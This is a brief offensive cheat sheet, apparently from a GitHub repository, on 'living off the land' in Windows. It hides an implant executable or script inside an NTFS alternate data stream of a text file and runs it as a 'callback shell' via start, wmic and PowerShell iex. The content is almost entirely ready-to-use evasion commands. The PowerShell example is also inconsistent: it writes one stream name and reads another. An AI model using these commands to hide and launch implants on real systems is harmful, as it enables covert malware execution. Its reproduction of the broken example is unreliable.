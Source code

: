# Living off the Land

## 01 - Command Prompt

### 1.1 - Basics

Hide the file by appending inside an existing file.

```
C:\> type implant.exe > file.txt:implant.exe
```

Execute it

```
C:\> start file.txt:implant.exe
```

### 1.2 - WMIC

Execute Callback Shell via ADS

```
C:\> wmic process create "c:\path\to\file.txt:implant.exe"
```

## 02 - Powershell

### 2.1 - Basics

Hide the file by appending inside an existing file.

```
PS C:\> Set-Content file.txt -Stream script.ps1 -Value implant.ps1
```

Execute Callback Shell via ADS

```
PS C:\> Get-Content file.txt -Stream implant.ps1 | iex
```

---
## References

- [LOLBAS (Living Off The Land Binaries, Scripts and Libraries)](https://lolbas-project.github.io)

- [r00t-3xp10it: ADS](https://github.com/r00t-3xp10it/hacking-material-books/blob/master/obfuscation/ADS.md)

- [Hacking Articles: Defense Evasion Alternate Data Streams](https://www.hackingarticles.in/defense-evasion-alternate-data-streams/)

- [InfoSec Writeups: Alternate Data Streams ADS](https://infosecwriteups.com/alternate-data-streams-ads-54b144a831f1)

- [OddVar Moe: Putting Data in Alternate Data Streams and How to Execute it](https://oddvar.moe/2018/01/14/putting-data-in-alternate-data-streams-and-how-to-execute-it/)

- [CqureAcademy: Alternate Data Streams](https://cqureacademy.com/blog/alternate-data-streams)

- [ThreatSpike: Alternate Data Streams](https://www.threatspike.com/blogs/alternate-data-streams)